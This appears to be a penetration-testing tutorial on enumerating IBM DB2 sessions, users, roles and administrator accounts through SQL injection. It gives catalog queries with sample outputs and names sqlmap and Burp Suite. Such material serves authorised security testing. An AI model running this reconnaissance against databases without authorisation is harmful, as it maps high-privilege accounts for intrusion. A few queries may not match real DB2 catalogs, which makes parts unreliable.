

# Session, User, and Privilege Enumeration

## Context

This article teaches how to enumerate session, user, and privilege information in IBM DB2 using SQL injection. To effectively carry out these techniques, you should have foundational knowledge of database sessions, user privileges, and SQL queries. This focus area is essential for understanding how to exploit sensitive session, user, and privilege data for offensive cybersecurity objectives within DB2 environments.

## Quick Reference Table

| Goal                              | Example Query                                                                 |
|------------------------------------|------------------------------------------------------------------------------|
| Session user                      | `SELECT SESSION_USER FROM SYSIBM.SYSDUMMY1;`                                 |
| System user                       | `SELECT SYSTEM_USER FROM SYSIBM.SYSDUMMY1;`                                  |
| Current server                    | `SELECT CURRENT SERVER FROM SYSIBM.SYSDUMMY1;`                               |
| Authorization ID                  | `SELECT AUTHORIZATION_ID FROM SYSIBM.SYSDUMMY1;`                             |
| Current user                      | `SELECT CURRENT_USER FROM SYSIBM.SYSDUMMY1;`                                 |
| User                              | `SELECT USER FROM SYSIBM.SYSDUMMY1;`                                         |
| List all users (tabauth)          | `SELECT DISTINCT(GRANTEE) FROM SYSIBM.SYSTABAUTH;`                           |
| List all users (schemata)         | `SELECT DISTINCT(DEFINER) FROM SYSCAT.SCHEMATA;`                             |
| List all users (privileges)       | `SELECT DISTINCT(AUTHID) FROM SYSIBMADM.PRIVILEGES;`                         |
| List all users (dbauth)           | `SELECT GRANTEE FROM SYSCAT.DBAUTH;`                                         |
| List all users (sysuserauth)      | `SELECT * FROM SYSIBM.SYSUSERAUTH;`                                          |
| List all roles                    | `SELECT * FROM SYSCAT.ROLES;`                                                |
| List database privileges          | `SELECT * FROM SYSCAT.DBAUTH;`                                               |
| List table privileges             | `SELECT * FROM SYSCAT.TABAUTH;`                                              |
| List system privileges            | `SELECT * FROM SYSIBM.SYSUSERAUTH;`                                          |
| List system roles                 | `SELECT * FROM SYSCAT.SYSROLES;`                                             |
| List DBA accounts (tabauth)       | `SELECT DISTINCT(GRANTEE) FROM SYSIBM.SYSTABAUTH WHERE CONTROLAUTH='Y';`     |
| List DBA accounts (sysuserauth)   | `SELECT NAME FROM SYSIBM.SYSUSERAUTH WHERE SYSADMAUTH = 'Y' OR SYSADMAUTH = 'G';` |

## Theory

Understanding how DB2 manages session, user, and privilege information is crucial for effective enumeration and exploitation during offensive security assessments. Here's a breakdown of the key concepts and where to find them in DB2:



### Session Information
A session in DB2 represents a single connection to the database, typically associated with a user or application. Session variables reveal the context in which SQL statements are executed, including:
- **SESSION_USER**: The user ID that initiated the session. This is often the account used to authenticate to the database.
- **SYSTEM_USER**: The operating system user under which the DB2 process is running. This can be useful for identifying the underlying OS context, especially in shared environments.
- **CURRENT SERVER**: The name of the database server currently being accessed. This is helpful for confirming which DB2 instance is in use, especially in environments with multiple databases.
- **AUTHORIZATION_ID**: The effective authorization ID for the session, which determines the privileges available for the current connection. This may differ from the login user if the session context has changed (e.g., via `SET SESSION AUTHORIZATION`).
- **CURRENT_USER** and **USER**: These can reflect the user executing the current statement, which is important for auditing and understanding privilege inheritance.

### User Information
DB2 maintains several catalogs that track user accounts and their relationships to database objects:
- **SYSIBM.SYSUSERAUTH**: Contains information about all users known to the DB2 system, including authentication and system-level privileges (such as SYSADM).
- **SYSCAT.SCHEMATA**: Tracks schema ownership, allowing you to enumerate users who have created or own database schemas.
- **SYSIBM.SYSTABAUTH**: Records which users have been granted privileges on specific tables, including CONTROL (DBA-level) privileges.
- **SYSIBMADM.PRIVILEGES**: Provides a consolidated view of all privileges granted to users and roles in the database.
- **SYSCAT.DBAUTH**: Shows which users or roles have database-level privileges, such as DBADM or SECADM.

### Privilege and Role Information
Privileges in DB2 determine what actions a user or role can perform. Enumerating these is essential for identifying escalation paths and potential misconfigurations:
- **SYSCAT.TABAUTH**: Lists all table-level privileges, such as SELECT, INSERT, UPDATE, DELETE, and CONTROL.
- **SYSCAT.DBAUTH**: Lists database-level privileges, such as DBADM, SECADM, and more.
- **SYSCAT.ROLES**: Contains all roles defined in the database, which can be granted to users or other roles to aggregate privileges.
- **SYSCAT.SYSROLES**: Provides information about system roles and their attributes.

By querying these catalogs and variables, an attacker or penetration tester can map out the security landscape of a DB2 environment, identify high-privilege accounts, and discover potential vectors for privilege escalation or lateral movement. Understanding the relationships between users, sessions, and privileges is foundational for both offensive and defensive database security work.

## Practice

### Enumerate Session and User Information

Retrieve the session user ID:
```sql
SELECT SESSION_USER FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the user ID of the current session.
*Example Output:*
| SESSION_USER |
|--------------|
| DB2USER1     |

Retrieve the system user ID:
```sql
SELECT SYSTEM_USER FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the operating system user ID running the current DB2 session.
*Example Output:*
| SYSTEM_USER |
|-------------|
| db2inst1    |

Obtain the current server's name:
```sql
SELECT CURRENT SERVER FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the name of the database server to which the session is connected.
*Example Output:*
| CURRENT SERVER |
|----------------|
| SAMPLE         |

Retrieve the authorization ID:
```sql
SELECT AUTHORIZATION_ID FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the authorization ID currently in use for interacting with the database. This may differ from the user name and determines the effective privileges for the session.
*Example Output:*
| AUTHORIZATION_ID |
|------------------|
| DB2USER1         |

Fetch the current user ID executing SQL statements:
```sql
SELECT CURRENT_USER FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the user ID currently executing the SQL statement.
*Example Output:*
| CURRENT_USER |
|--------------|
| DB2USER1     |

Acquire user information from the dummy table:
```sql
SELECT USER FROM SYSIBM.SYSDUMMY1;
```
*Outcome*: Returns the user name associated with the current session.
*Example Output:*
| USER     |
|----------|
| DB2USER1 |

### Enumerate Users

List all users with table privileges:
```sql
SELECT DISTINCT(GRANTEE) FROM SYSIBM.SYSTABAUTH;
```
*Outcome*: Returns all users who have been granted privileges on tables.
*Example Output:*
| GRANTEE   |
|-----------|
| DB2USER1  |
| APPUSER   |
| ADMIN     |

List all users who have defined schemas:
```sql
SELECT DISTINCT(DEFINER) FROM SYSCAT.SCHEMATA;
```
*Outcome*: Returns all users who have defined schemas in the database.
*Example Output:*
| DEFINER   |
|-----------|
| DB2USER1  |
| SCHEMAADM |

List all users with privileges (from privileges catalog):
```sql
SELECT DISTINCT(AUTHID) FROM SYSIBMADM.PRIVILEGES;
```
*Outcome*: Returns all users with any privileges in the database.
*Example Output:*
| AUTHID    |
|-----------|
| DB2USER1  |
| SECUSER   |

List all users with database privileges:
```sql
SELECT GRANTEE FROM SYSCAT.DBAUTH;
```
*Outcome*: Returns all users who have been granted database-level privileges.
*Example Output:*
| GRANTEE   |
|-----------|
| DB2USER1  |
| DBADMIN   |

List all users and their authentication details (if available in your DB2 version):
```sql
SELECT * FROM SYSIBM.SYSUSERAUTH;
```
*Outcome*: Returns all users and their authentication details.
*Example Output:*
| NAME     | SYSADMAUTH | ... |
|----------|------------|-----|
| DB2USER1 | N          | ... |
| ADMIN    | Y          | ... |

### Enumerate Privileges

List all table privileges:
```sql
SELECT * FROM SYSCAT.TABAUTH;
```
*Outcome*: Returns all table-level privileges for users and roles.
*Example Output:*
| TABNAME   | GRANTEE  | CONTROL | SELECT | INSERT |
|-----------|----------|---------|--------|--------|
| EMPLOYEES | DB2USER1 | N       | Y      | N      |
| PAYROLL   | ADMIN    | Y       | Y      | Y      |

List all system privileges:
```sql
SELECT * FROM SYSIBM.SYSUSERAUTH;
```
*Outcome*: Returns all users and their system-level privileges.
*Example Output:*
| NAME     | SYSADMAUTH | SYSCTRL | ... |
|----------|------------|---------|-----|
| DB2USER1 | N          | N       | ... |
| ADMIN    | Y          | Y       | ... |

### Enumerate DBA Accounts

List all users with CONTROL privilege on tables (potential DBA accounts):
```sql
SELECT DISTINCT(GRANTEE) FROM SYSIBM.SYSTABAUTH WHERE CONTROLAUTH='Y';
```
*Outcome*: Returns all users who have CONTROL (DBA-level) privileges on tables.
*Example Output:*
| GRANTEE   |
|-----------|
| ADMIN     |
| DBAUSER   |

List all users with SYSADM authority (DBA accounts):
```sql
SELECT NAME FROM SYSIBM.SYSUSERAUTH WHERE SYSADMAUTH = 'Y' OR SYSADMAUTH = 'G';
```
*Outcome*: Returns all users with SYSADM (DBA) authority.
*Example Output:*
| NAME      |
|-----------|
| ADMIN     |
| SYSADMIN  |

## Tools

- **sqlmap**
- **Burp Suite**